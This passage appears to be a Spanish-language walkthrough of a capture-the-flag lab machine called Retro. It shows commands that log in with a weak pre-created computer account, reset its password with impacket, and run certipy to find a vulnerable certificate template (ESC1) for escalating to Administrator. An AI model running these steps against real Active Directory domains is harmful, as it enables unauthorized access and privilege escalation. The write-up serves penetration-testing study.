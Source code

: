 ```
netexec smb 10.129.234.44 -u 'BANKING$' -p 'banking'
```

![[Retro18.png]]
Buscando en internet este error encontramos el siguiente [articulo](https://medium.com/@offsecdeer/finding-weak-ad-computer-passwords-e3dc1ed220df)
Donde nos dice que es un windows 2000 aprox y que la contraseña es correcta, pero no nos deja entrar por cuestiones de seguridad, pero que si cambiamos la contraseña vamos a entrar sin problemas

Buscamos este script de impacket [[changepass.py]] con [[find]] usando el comando `find / -name changepasswd.py 2>/dev/null`

![[Retro19.png]]
Lo encontramos en esta ruta asi que lo vamos a ejecutar `python3 /usr/share/doc/python3-impacket/examples/changepasswd.py retro.vl/BANKING\$@10.129.234.44 -newpass 'exploit' -p rpc-samr`
Tenemos que poner el dominio/usuario/ip. Luego con `-newpass` ponemos la nueva contraseña, y el `-p` es para el pipe

![[Retro20.png]]
Luego comprobamos con [[netexec]] que la contraseña se cambio correctamente con el comando `netexec smb 10.129.234.44 -u 'BANKING$' -p 'exploit'`

-------
# Escalada al usuario Administrator con [[certipy]] ESC1

Vamos a usar este [articulo](https://www-hackingarticles-in.translate.goog/a-detailed-guide-on-certipy/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para usar el [[certipy]] y escalar prilegios


```
python3 /home/bunzo/.local/bin/certipy find -username 'BANKING$'@retro.vl -password 'exploit' -dc-ip 10.129.234.44 -vulnerable -enable -stdout
```
*Parametros:* 
	`find` Es para buscar 
	`-username` Usuario
	`-password` Contraseña
	`-dc-ip` Es la ip victima
	`-vulnerable` Indica que queremos detectar los templates con configuraciones inseguras
	`-enable` Si la CA está deshabilitada, pide que se habilite la inscripción (requiere que la cuenta tenga permisos suficientes).
	`-stdout` Muestra toda la informacion directamente en la salida edl comando

![[Retro22.png]]
![[Retro23.png]]
Nos da el template que se llama *RetroClients* y el CA que es *retro-DC-CA*. Y nos indica que hay una vulnerabilidad *ESC1*

Con este comando estamos intentando leer la ifnormacion de la cuienta Administrator utilizando las credenciales del usuario BANKING$
